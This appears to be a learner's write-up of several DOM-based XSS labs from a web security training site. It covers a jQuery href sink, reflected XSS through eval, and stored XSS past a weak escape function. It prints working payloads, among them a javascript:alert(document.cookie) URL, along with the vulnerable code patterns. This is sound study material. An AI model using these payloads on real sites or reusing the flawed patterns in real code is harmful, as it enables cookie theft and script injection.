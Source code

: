 In jQuery `$('#backLink')` means get element with the id of `backLink` and `.attr("href", "/whatever")` means set value of `href` attribute to `/whatever`
As you can see from the script above, it'll set `href` to whatever is specified in the `url`'s param `?returnPath`

Therefore we can change the url:
```
https://ff.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
```

As a result we'll get:
```
<a id="backLink" href="javascript:alert(document.cookie)">Back</a>
```

### Lab: DOM XSS in jQuery selector sink using a hashchange event 
Not done yet

### Lab: Reflected DOM XSS
There's an endpoint:
```
/?search=hi
```
Whatever is specified in the `?search` url query - is reflected in the server response:
```
{"results":[],"searchTerm":"hi"}
```
When we explore the website we also notice that there's a script that has:
```bash
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        eval('var searchResultsObj = ' + this.responseText);
        displaySearchResults(searchResultsObj);
    }
};
xhr.open("GET", path + window.location.search);
xhr.send();
```
Pay attention to `eval` function. `this.responseText` will contain:
```
{"results":[],"searchTerm":"hi"}
```

Therefore if we change url to:
```
/?search=\"}; alert()//
```
we'll get:
'{"results":[],"searchTerm":"\\\\"}; alert()//"}'
And `alert()` will be executed

### Lab: Stored DOM XSS
There's a function:
```
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}
```
And after we post a comment on the site we get back a response and in the script we append the response to DOM via `.innerHTML`:
```
if (response.comment.body) {
    let commentBodyPElement = document.createElement("p");
    commentBodyPElement.innerHTML = escapeHTML(response.comment.body);

    commentSection.appendChild(commentBodyPElement);
```